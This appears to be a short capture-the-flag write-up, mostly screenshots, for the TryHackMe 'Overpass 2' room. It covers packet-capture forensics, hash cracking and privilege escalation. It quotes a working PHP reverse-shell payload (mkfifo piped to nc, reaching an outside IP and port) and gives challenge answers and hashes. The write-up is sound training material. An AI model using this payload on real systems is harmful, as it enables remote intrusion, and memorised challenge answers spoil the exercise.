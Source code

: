 Link room: https://tryhackme.com/room/overpass2hacked
# Task 1
## using Wireshark

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/bfef944e-72d5-48e0-970a-183796bccc39)

=> /development/

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/89faa4f3-5353-4744-b912-a5857d53ea17)

Go to Follow -> HTTP Stream
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/7d47ce1c-cf65-4c23-9e87-e25964234706)

=> ```<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>```

View next stream

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/be9f9420-5d6e-4b09-978a-01c076a28aa3)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/f3da0b9c-9781-470f-8186-14e0c3fe5636)

=> whenevernoteartinstant

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/eeea5678-b7c1-402f-979b-df437e14e06f)

=> https://github.com/NinjaJc01/ssh-backdoor

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/61fed312-8872-4134-aee4-46e5334fc6fb)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/c1cbb82d-c64e-4466-b2b3-71b91d8057a4)

=> 4
# Task 2
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/d84b7bd2-b07e-4a30-ba21-928ae29a5c1d)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/3cbdc1c8-3f70-47a5-a0c8-80e858d1b616)

=> "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"

View main.go

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/bea7fc24-25ad-44ee-8d02-45205773e0fa)

=> "1c362db832f3f864c8c2fe05f2002a05"

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/a22d58fa-6cd0-43d4-8a53-0160d9c0c1ca)

=> "6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed"

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/0fe4d806-38f1-475e-8201-6f43292156b9)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/38ae61d9-604b-4b8d-be72-b4568e2f6730)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/7f83261f-6881-4a86-b16b-2fd4b69e7c63)

=> november16
# TASK 3
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/75a619e0-a76f-41ba-83fb-15b234cf0c78)

=> H4ck3d by CooctusClan

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/c46a9228-aa46-4e63-985e-6217fb96d826)

=> user.txt

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/99329876-a978-47f0-acbd-10d0c6ad2e53)

## PRIVILEGE ESCALATION
Go to GTFOBins website

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/3a03df28-db2e-4249-9830-949080f73c6d)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/5b9dee58-e93c-4e05-9f46-3d74eacf2178)

=> root.txt
## Done!!!
Thanks for reading. Bye!
